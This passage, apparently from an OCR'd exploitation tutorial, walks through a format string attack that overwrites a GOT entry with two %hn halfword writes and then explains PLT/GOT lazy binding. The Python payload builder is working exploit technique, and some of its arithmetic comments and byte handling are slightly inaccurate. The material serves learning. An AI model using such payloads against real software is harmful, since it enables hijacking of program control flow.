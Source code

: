 # Write to two addresses:
got_low = got_entry      # 0x0804981c (writes low 2 bytes)
got_high = got_entry + 2 # 0x0804981e (writes high 2 bytes)

# Problem: 2052 < 33956 (can't go backwards!)
# Solution: Write 0x10804 instead (65536 + 2052 = 67588)

# Payload:
payload = struct.pack('<I', got_low)   # 4 bytes
payload += struct.pack('<I', got_high) # 4 bytes (8 total)

# Write 33956 (including 8 bytes already printed)
payload += "%33948x"  # 33956 - 8 = 33948
payload += "%4$hn"    # Write to position 4 (got_low)

# Write 67588 (difference: 67588 - 33956 = 33632)
payload += "%33632x"
payload += "%5$hn"    # Write to position 5 (got_high)
Step-by-step breakdown:

Print 8 bytes (two addresses)
Print 33948 more = 33956 total → write to low bytes
Print 33632 more = 67588 total → write to high bytes
High bytes: 67588 & 0xFFFF = 0x10804 → 0x0804 in memory

Learn More:

📖 Format String Arithmetic

5. Lazy Binding
Concept:
Functions aren't resolved until first called.
First call:
1. Call printf@PLT
2. PLT checks GOT entry
3. GOT contains resolver address
4. Resolver finds real printf() in libc
5. GOT entry updated with real address
6. Jump to printf()
Subsequent calls:
1. Call printf@PLT
2. PLT checks GOT entry
3. GOT has real address → jump directly
Exploitation Impact:
